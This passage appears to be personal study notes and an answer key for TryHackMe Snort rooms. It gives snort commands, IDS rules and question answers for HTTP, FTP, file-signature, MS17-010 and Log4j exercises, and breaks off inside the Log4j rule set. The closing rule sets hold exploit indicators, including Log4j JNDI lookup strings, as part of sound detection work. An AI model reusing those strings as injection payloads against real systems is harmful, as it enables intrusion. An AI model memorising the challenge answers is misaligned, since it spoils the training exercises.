For test purposes, you can still test the default reading option with pcap by using the following command `snort -r icmp-test.pcap`

Let's investigate the pcap with our configuration file and see what will happen. `sudo snort -c /etc/snort/snort.conf -q -r icmp-test.pcap -A console -n 10`

If you don't remember the purpose of the parameters in the given command, please revisit previous tasks and come back again!

_Investigating multiple PCAPs with parameter "--pcap-list"_  

Let's investigate multiple pcaps with our configuration file and see what will happen. `sudo snort -c /etc/snort/snort.conf -q --pcap-list="icmp-test.pcap http2.pcap" -A console -n 10`

_Investigating multiple PCAPs with parameter "--pcap-show"_  

Let's investigate multiple pcaps, distinguish each one, and see what will happen. `sudo snort -c /etc/snort/snort.conf -q --pcap-list="icmp-test.pcap http2.pcap" -A console --pcap-show`

Investigate the **mx-1.pcap** file with the default configuration file.  

`sudo snort -c /etc/snort/snort.conf -A full -l . -r mx-1.pcap`

Investigate the mx-1.pcap file **with the second** configuration file.  

`sudo snort -c /etc/snort/snortv2.conf -A full -l . -r mx-1.pcap`

Investigate the **mx-2.pcap** file with the default configuration file.  

`sudo snort -c /etc/snort/snort.conf -A full -l . -r mx-2.pcap`

Investigate the mx-2.pcap and mx-3.pcap files with the default configuration file.  

`sudo snort -c /etc/snort/snort.conf -A full -l . --pcap-list="mx-2.pcap mx-3.pcap"`

### _**Snort Rule Structure**_
**Let's Learn Snort Rules!**

Understanding the Snort rule format is essential for any blue and purple teamer.  The primary structure of the snort rule is shown below;

- The following rule will generate an alert for each ICMP packet processed by Snort;


Each rule should have a type of action, protocol, source and destination IP, source and destination port and an option. Remember, Snort is in passive mode by default. So most of the time, you will use Snort as an IDS. You will need to start **"inline mode" to turn on IPS mode.** But before you start playing with inline mode, you should be familiar with Snort features and rules.  

The Snort rule structure is easy to understand but difficult to produce. You should be familiar with rule options and related details to create efficient rules. It is recommended to practice Snort rules and option details for different use cases.

We will cover the basic rule structure in this room and help you take a step into snort rules. You can always advance your rule creation skills with different rule options by practising different use cases and studying rule option details in depth. We will focus on two actions; **"alert"** for IDS mode and **"reject"** for IPS mode.

Rules cannot be processed without a header. Rule options are "optional" parts. However, it is almost impossible to detect sophisticated attacks without using the rule options.


**IP and Port Numbers**

These parameters identify the source and destination IP addresses and associated port numbers filtered for the rule.


Direction

The direction operator indicates the traffic flow to be filtered by Snort. The left side of the rule shows the source, and the right side shows the destination.

- **\->** Source to destination flow.
- **<>** Bidirectional flow

Note that there is no "<-" operator in Snort.


There are three main rule options in Snort;  

- General Rule Options - Fundamental rule options for Snort. 
- Payload Rule Options - Rule options that help to investigate the payload data. These options are helpful to detect specific payload patterns.
- Non-Payload Rule Options - Rule options that focus on non-payload data. These options will help create specific patterns and identify network issues.

**General Rule Options**



**Payload Detection Rule Options**



**Non-Payload Detection Rule Options**

There are rule options that focus on non-payload data. These options will help create specific patterns and identify network issues.



Remember, once you create a rule, it is a local rule and should be in your "local.rules" file. This file is located under "/etc/snort/rules/local.rules". A quick reminder on how to edit your local rules is shown below.

`sudo gedit /etc/snort/rules/local.rules`

Note that there are some default rules activated with snort instance. These rules are deactivated to manage your rules and improve your exercise experience. For further information, please refer to the TASK-10 or [Snort manual](http://manual-snort-org.s3-website-us-east-1.amazonaws.com/).  

By this point, we covered the primary structure of the Snort rules. Understanding and practicing the fundamentals is suggested before creating advanced rules and using additional options.

Wow! We have covered the fundamentals of the Snort rules! Now, use the attached VM and navigate to the Task-Exercises/Exercise-Files/TASK-9 folder to answer the questions! Note that you can use the following command to create the logs in the **current directory: `-l .`**

Write a rule to filter **IP ID "35369"** and run it against the given pcap file. What is the request name of the detected packet? `snort -c local.rules -A full -l . -r task9.pcap`
- `alert ip any any <> any any (msg: "IP Packet found";id:35369; sid:1000001; rev:1;)`
- `cat alert`
- TIMESTAMP REQUEST

Create a rule to filter packets with Syn flag and run it against the given pcap file. What is the number of detected packets?
- `alert tcp any any -> any any (msg: "Flags Found"; flags:S; sid:1000001; rev:1;)`
- 1

Clear the previous log and alarm files and deactivate/comment out the old rule.

Write a rule to filter packets with Push-Ack flags and run it against the given pcap file. What is the number of detected packets?
- `alert tcp any any -> any any (msg: "Flags Found"; flags:PA; sid:1000001; rev:1;)`
- 216

Clear the previous log and alarm files and deactivate/comment out the old rule.

Create a rule to filter packets with the same source and destination IP and run it against the given pcap file. What is the number of detected packets?
- `alert ip any any -> any any (msg: "Same IP Found"; sameip; sid:1000001; rev:1;)` This one didn't work added the next 2 for the correct answer
- `alert tcp any any -> any any (msg: "Same IP Found"; sameip; sid:1000001; rev:1;)`
- `alert udp any any -> any any (msg: "Same IP Found"; sameip; sid:1000002; rev:1;)`
- 10

Case Example - An analyst modified an existing rule successfully. Which rule option must the analyst change after the implementation?
- rev

### _**Snort2 Operation Logic: Points to Remember**_
**P**oints to Remember

**Main** Components of Snort

- **Packet Decoder -** Packet collector component of Snort. It collects and prepares the packets for pre-processing. 
- **Pre-processors -** A component that arranges and modifies the packets for the detection engine.
- **Detection Engine -** The primary component that process, dissect and analyse the packets by applying the rules. 
- Logging and Alerting - Log and alert generation component.
- Outputs and Plugins - Output integration modules (i.e. alerts to syslog/mysql) and additional plugin (rule management detection plugins) support is done with this component. 

**There are three types of rules available for snort**

- Community Rules - Free ruleset under the GPLv2. Publicly accessible, no need for registration.
- Registered Rules - Free ruleset (requires registration). This ruleset contains subscriber rules with 30 days delay.
- Subscriber Rules (Paid) - Paid ruleset (requires subscription). This ruleset is the main ruleset and is updated twice a week (Tuesdays and Thursdays).

You can download and read more on the rules [here](https://www.snort.org/downloads).

**Note:** Once you install Snort2, it automatically creates the required directories and files. However, if you want to use the community or the paid rules, you need to indicate each rule in the snort.conf file.

Since it is a long, all-in-one configuration file, editing it without causing misconfiguration is troublesome for some users. **That is why Snort has several rule updating modules and integration tools.** To sum up, never replace your configured Snort configuration files; you must edit your configuration files manually or update your rules with additional tools and modules to not face any fail/crash or lack of feature.

- snort.conf: _Main configuration file._
- local.rules: _User-generated rules file._

**Let's start with overviewing the main configuration file (snort.conf)** `sudo gedit /etc/snort/snort.conf`

**Navigate to the "Step #1: Set the network variables." section.**

This section manages the scope of the detection and rule paths.


**Navigate to the "Step #2: Configure the decoder." section.**  

In this section, you manage the IPS mode of snort. The single-node installation model IPS model works best with "afpacket" mode. You can enable this mode and run Snort in IPS.


Data Acquisition Modules (DAQ) are specific libraries used for packet I/O, bringing flexibility to process packets. It is possible to select DAQ type and mode for different purposes.

There are six DAQ modules available in Snort;

- **Pcap:** Default mode, known as Sniffer mode.
- **Afpacket:** Inline mode, known as IPS mode.
- **Ipq:** Inline mode on Linux by using Netfilter. It replaces the snort\_inline patch. 
- **Nfq:** Inline mode on Linux.
- **Ipfw:** Inline on OpenBSD and FreeBSD by using divert sockets, with the pf and ipfw firewalls.  
    
- **Dump:** Testing mode of inline and normalisation.

The most popular modes are the default (pcap) and inline/IPS (Afpacket).

**Navigate to the "Step #6: Configure output plugins" section.**

This section manages the outputs of the IDS/IPS actions, such as logging and alerting format details. The default action prompts everything in the console application, so configuring this part will help you use the Snort more efficiently. 

**Navigate to the "Step #7: Customise your ruleset" section.**


Note that "#" is commenting operator. You should uncomment a line to activate it.

### _**Conclusion**_
Complete the snort challenge room: [Snort Challenge - Live Attacks](https://tryhackme.com/room/snortchallenges1)

## **--Snort Challenge - The Basics--**
### _**Introduction**_

### _**Writing IDS Rules (HTTP)**_
Write rules to detect "all TCP port 80 traffic" packets in the given pcap file. 

`sudo tcpdump -n -r mx-3.pcap 'tcp port 80' | wc -l`
- not used, just a test

`alert tcp any any <> any 80 (msg: "TCP 80 Found"; ; sid:1000001; rev:1;)`
- added this to local.rules

`alert tcp any 80 <> any any (msg: "TCP 80 Found"; ; sid:1000002; rev:1;)`
- added this to local.rules 

`sudo snort -c ./local.rules -dev -l . -r ./mx-3.pcap`
- used this to run sort

What is the number of detected packets?
- 328

**Investigate the log file.**

What is the destination address of packet 63?

`snort -r snort.log.<number> -n 63`
- 145.254.160.237

What is the ACK number of packet 64?

`snort -r snort.log.<number> -n 64`
- 0x38AFFFF3

What is the SEQ number of packet 62?

`snort -r snort.log.<number> -n 62`
- 0x38AFFFF3

What is the TTL of packet 65?

`snort -r snort.log.<number> -n 65`
- 128

What is the source IP of packet 65?
- 145.254.160.237

What is the source port of packet 65?
- 3372

### _**Writing IDS Rules (FTP)**_
Write rules to detect "all TCP port 21"  traffic in the given pcap.

`alert tcp any any <> any 21 (msg: "TCP 21 found"; ; sid:1000001; rev:1;)`

`alert tcp any 21 <> any any (msg: "TCP 21 found"; ; sid:1000002; rev:1;)`

`sudo snort -c ./local.rules -dev -l . -r ./ftp-png-gif.pcap`

What is the number of detected packets?
- 614

Investigate the log file.

`sudo snort -r snort.log<number> -d "tcp and port 21" -n 10`

What is the FTP service name?
- Microsoft FTP service

Clear the previous log and alarm files.

`sudo rm snort.log* alert`

Deactivate/comment on the old rules.

Write a rule to detect failed FTP login attempts in the given pcap.

`alert tcp any any <> any any (msg: "Failed FTP login found"; content: "530 user"; sid:1000003; rev:1;)`

What is the number of detected packets?
- 41

Clear the previous log and alarm files.

Deactivate/comment on the old rule.

Write a rule to detect successful FTP logins in the given pcap.

`alert tcp any any <> any any (msg: "Successful FTP login found"; content: "230 User"; sid:1000004; rev:1;)`

What is the number of detected packets?
- 1

Clear the previous log and alarm files.

Deactivate/comment on the old rule.

Write a rule to detect failed FTP login attempts with a valid username but a bad password or no password.

`alert tcp any any <> any any (msg: "FTP Bad Password found"; content: "331 Password"; sid:1000005; rev:1;)`

What is the number of detected packets?
- 42

Clear the previous log and alarm files.

Deactivate/comment on the old rule.

Write a rule to detect failed FTP login attempts with "Administrator" username but a bad password or no password.

`alert tcp any any <> any any (msg: "FTP Bad Password found"; content: "Administrator"; content: "331 Password"; sid:1000006; rev:1;)`

What is the number of detected packets?
- 7

### _**Writing IDS Rules (PNG)**_

Write a rule to detect the PNG file in the given pcap.
- [https://en.wikipedia.org/wiki/List\_of\_file\_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)
- `alert tcp any any <> any any (msg: "PNG image found"; content: "|89 50 4E 47 0D 0A 1A 0A|"; sid:1000007; rev:1;)`
- `sudo snort -c ./local.rules -dev -l . -r ftp-png-gif.pcap `

Investigate the logs and identify the software name embedded in the packet.
- Adobe ImageRead

Clear the previous log and alarm files.

Deactivate/comment out the old rule.

Write a rule to detect the GIF file in the given pcap.
- `alert tcp any any <> any any (msg: "GIF87a image found"; content: "|47 49 46 38 37 61|"; sid:1000008; rev:1;)`
- `alert tcp any any <> any any (msg: "GIF89a image found"; content: "|47 49 46 38 39 61|"; sid:1000009; rev:1;)`

Investigate the logs and identify the image format embedded in the packet.
- `sudo snort -d -r snort.log.<number>`
- `less alert`
- GIF89a

### _**Writing IDS Rules (Torrent Metafile)**_

Write a rule to detect the torrent metafile in the given pcap.
- `alert tcp any any <> any any (msg: "Torrent found"; content: "torrent"; sid:1000010; rev:1;)`
- `sudo snort -c ./local.rules -dev -l . -r torrent.pcap`


 What is the number of detected packets?
 - 2

Investigate the log/alarm files.
- `sudo snort -d -r snort.log<number>`

What is the name of the torrent application?
- bittorrent

Investigate the log/alarm files.
- `sudo snort -d -r snort.log<number>`

What is the MIME (Multipurpose Internet Mail Extensions) type of the torrent metafile?
- application/x-bittorrent

Investigate the log/alarm files.
- `sudo snort -d -r snort.log<number>`

What is the hostname of the torrent metafile?
- tracker2.torrentbox.com

### _**Troubleshooting Rule Syntax Errors**_
You can test each ruleset with the following command structure;

`sudo snort -c local-X.rules -r mx-1.pcap -A console`

Fix the syntax error in local-1.rules file and make it work smoothly.  

`alert tcp any 3372 -> any any (msg: "Troubleshooting 1"; sid:1000001; rev:1;)`

What is the number of the detected packets?
- 16

Fix the syntax error in local-2.rules file and make it work smoothly.

`alert icmp any any -> any any (msg: "Troubleshooting 2"; sid:1000001; rev:1;)`

What is the number of the detected packets?
- 68

Fix the syntax error in local-3.rules file and make it work smoothly.

`alert icmp any any -> any any (msg: "ICMP Packet Found"; sid:1000001; rev:1;)`

`alert tcp any any -> any 80,443 (msg: "HTTPX Packet Found"; sid:1000002; rev:1;)`

What is the number of the detected packets?
- 87

Fix the syntax error in local-4.rules file and make it work smoothly.

`alert icmp any any -> any any (msg: "ICMP Packet Found"; sid:1000001; rev:1;)`

`alert tcp any 80,443 -> any any (msg: "HTTPX Packet Found"; sid:1000002; rev:1;)`

What is the number of the detected packets?
- 90

Fix the syntax error in local-5.rules file and make it work smoothly.

`alert icmp any any <> any any (msg: "ICMP Packet Found"; sid:1000001; rev:1;)`

`alert icmp any any <> any any (msg: "Inbound ICMP Packet Found"; sid:1000002; rev:1;)`

`alert tcp any any -> any 80,443 (msg: "HTTPX Packet Found"; sid:1000003; rev:1;)`

What is the number of the detected packets?
- 155

Fix the logical error in local-6.rules file and make it work smoothly to create alerts.

`alert tcp any any <> any any (msg: "get request found"; content:"|67 65 74|";nocase ; sid:10000001; rev:1;)`

What is the number of the detected packets?
- 2

Fix the logical error in local-7.rules file and make it work smoothly to create alerts.

`alert tcp any any <> any 80  (msg: "alert found"; content:"|2E 68 74 6D 6C|"; sid:1000001; rev:1;)`

What is the name of the required option:
- msg

### _**Using External Rules (MS17-010)**_
Use the given pcap file.

Use the given rule file (local.rules) to investigate the ms1710 exploitation.

- 
```
alert tcp any any -> any 445 (msg: "Exploit Detected!"; flow: to_server, established; pcre:"/|57 69 6e 64 6f 77 73 20 37 20 48 6f 6d 65 20 50|/"; pcre: "/|72 65 6d 69 75 6d 20 37 36 30 31 20 53 65 72 76|/"; pcre:"/|69 63 65 20 50 61 63 6b 20 31|/"; sid: 2094284; rev: 2;)
alert tcp any any -> any 445 (msg: "Exploit Detected!"; flow: to_server, established; content: "IPC$"; sid:2094285; rev: 3;)
alert tcp any any -> any 445 (msg: "Exploit Detected!"; flow: to_server, established; content: "NTLMSSP";sid: 2094286; rev: 2;) 
alert tcp any any -> any any (msg: "Exploit Detected!"; flow: to_server, established; content: "WindowsPowerShell";sid: 20244223; rev: 3;)
alert tcp any any -> any any (msg: "Exploit Detected!"; flow: to_server, established; content: "ADMIN$";sid:20244224; rev: 2;)
alert tcp any any -> any 445 (msg: "Exploit Detected!"; flow: to_server, established; content: "IPC$";sid: 20244225; rev:3;)
alert tcp any any -> any any (msg: "Exploit Detected!"; flow: to_server, established; content: "lsarpc";sid: 20244226; rev: 2;)
alert tcp any any -> any any (msg: "Exploit Detected!"; flow: to_server, established; content: "lsarpc";sid: 209462812; rev: 3;)
alert tcp any any -> any any (msg: "Exploit Detected!"; flow: to_server, established; content: "samr"; sid: 209462813; rev: 3;)
alert tcp any any -> any any (msg: "Exploit Detected!"; flow: to_server, established; content: "browser"; sid: 209462814; rev: 2;)
alert tcp any any -> any any (msg: "Exploit Detected!"; flow: to_server, established;content: "epmapper";sid: 209462815; rev: 2;)
alert tcp any any -> any any (msg: "Exploit Detected!"; flow: to_server, established; content: "eventlog"; sid: 209462816; rev: 2;)
alert tcp any any -> any 445 (msg: "Exploit Detected!"; flow:to_server, established; content: "/root/smbshare"; sid: 20242290; rev: 2;)
alert tcp any any -> any 445 (msg: "Exploit Detected!"; flow:to_server, established; content: "\\PIPE"; sid: 20242291; rev: 3;)
alert tcp any any -> any 445 (msg: "Exploit Detected!"; flow:to_server, established; content: "smbshare"; sid: 20242292; rev: 3;)
alert tcp any any -> any 445 (msg: "Exploit Detected!"; flow:to_server, established; content: "srvsvc"; sid: 20242293; rev: 2;)
alert tcp any any -> any 445 (msg:"OS-WINDOWS Microsoft Windows SMB remote code execution attempt"; flow:to_server,established; content:"|FF|SMB3|00 00 00 00|"; depth:9; offset:4; byte_extract:2,26,TotalDataCount,relative,little; byte_test:2,>,TotalDataCount,20,relative,little; metadata:policy balanced-ips drop, policy connectivity-ips drop, policy max-detect-ips drop, policy security-ips drop, ruleset community, service netbios-ssn; reference:cve,2017-0144; reference:cve,2017-0146; reference:url,blog.talosintelligence.com/2017/05/wannacry.html; reference:url,isc.sans.edu/forums/diary/ETERNALBLUE+Possible+Window+SMB+Buffer+Overflow+0Day/22304/; reference:url,technet.microsoft.com/en-us/security/bulletin/MS17-010; sid:41978; rev:5;)
alert tcp any any -> any 445 (msg:"OS-WINDOWS Microsoft Windows SMB remote code execution attempt"; flow:to_server,established; content:"|FF|SMB|A0 00 00 00 00|"; depth:9; offset:4; content:"|01 00 00 00 00|"; within:5; distance:59; byte_test:4,>,0x8150,-33,relative,little; metadata:policy balanced-ips drop, policy connectivity-ips drop, policy max-detect-ips drop, policy security-ips drop, ruleset community, service netbios-ssn; reference:cve,2017-0144; reference:cve,2017-0146; reference:url,isc.sans.edu/forums/diary/ETERNALBLUE+Possible+Window+SMB+Buffer+Overflow+0Day/22304/; reference:url,technet.microsoft.com/en-us/security/bulletin/MS17-010; sid:42944; rev:2;)
alert tcp any any -> any 445 (msg: "Exploit Detected!"; flow: to_server, established; pcre:"/|57 69 6e 64 6f 77 73 20 37 20 48 6f 6d 65 20 50|/"; pcre: "/|72 65 6d 69 75 6d 20 37 36 30 31 20 53 65 72 76|/"; pcre:"/|69 63 65 20 50 61 63 6b 20 31|/"; reference: ExploitDatabase (ID’s - 42030, 42031, 42315); priority: 10; sid: 2094284; rev: 2;)
```
- `sudo snort -c ./local.rules -dev -l . -r ms-17-010.pcap`

What is the number of detected packets?

- 25154

Clear the previous log and alarm files.

Use local-1.rules empty file to write a new rule to detect payloads containing the "\IPC$" keyword.

- `alert tcp any any <> any any (msg:"keyword found"; content:"\\IPC$"; sid:1000001; rev:1;)`
- `sudo snort -c ./local-1.rules -dev -l . -r ms-17-010.pcap`

What is the number of detected packets?

- 12

Investigate the log/alarm files.

- `sudo snort -d -r snort.log.<number>`

What is the requested path?

- \\\192.168.116.138\IPC$

What is the CVSS v2 score of the MS17-010 vulnerability?

- https://nvd.nist.gov/vuln/detail/cve-2017-0144
- 9.3

### _**Using External Rules (Log4j)**_

Use the given rule file (local.rules) to investigate the log4j exploitation.

```
alert tcp any any -> any any (msg:"FOX-SRT – Exploit – Possible Apache Log4J RCE Request Observed (CVE-2021-44228)"; flow:established, to_server; content:"${jndi:ldap://"; fast_pattern:only; flowbits:set, fox.apachelog4j.rce; priority:3; reference:url, http://www.lunasec.io/docs/blog/log4j-zero-day/; metadata:CVE 2021-44228; metadata:created_at 2021-12-10; metadata:ids suricata; sid:21003726; rev:1;) 

alert tcp any any -> any any (msg:"FOX-SRT – Exploit – Possible Apache Log4J RCE Request Observed (CVE-2021-44228)"; flow:established, to_server; content:"${jndi:"; fast_pattern; pcre:"/\$\{jndi\:(rmi|ldaps|dns)\:/"; flowbits:set, fox.apachelog4j.rce; threshold:type limit, track by_dst, count 1, seconds 3600;  priority:3; reference:url, http://www.lunasec.io/docs/blog/log4j-zero-day/; metadata:CVE 2021-44228; metadata:created_at 2021-12-10; metadata:ids suricata; sid:21003728; rev:1;) 

alert tcp any any -> any any (msg:"FOX-SRT – Exploit – Possible Defense-Evasive Apache Log4J RCE Request Observed (CVE-2021-44228)"; flow:established, to_server; content:"${jndi:"; fast_pattern; content:!"ldap://"; flowbits:set, fox.apachelog4j.rce; threshold:type limit, track by_dst, count 1, seconds 3600;  priority:3; reference:url, http://www.lunasec.io/docs/blog/log4j-zero-day/; reference:url, twitter.com/stereotype32/status/1469313856229228544; metadata:CVE 2021-44228; metadata:created_at 2021-12-10; metadata:ids suricata; sid:21003730; rev:1;) 

alert tcp any any -> any any (msg:"FOX-SRT – Exploit – Possible Defense-Evasive Apache Log4J RCE Request Observed (URL encoded bracket) (CVE-2021-44228)"; flow:established, to_server; content:"%7bjndi:"; nocase; fast_pattern; flowbits:set, fox.apachelog4j.rce; threshold:type limit, track by_dst, count 1, seconds 3600;  priority:3; reference:url, http://www.lunasec.io/docs/blog/log4j-zero-day/; reference:url, https://twitter.com/testanull/status/1469549425521348609; metadata:CVE 2021-44228; metadata:created_at 2021-12-11; metadata:ids suricata; sid:21003731; rev:1;) 

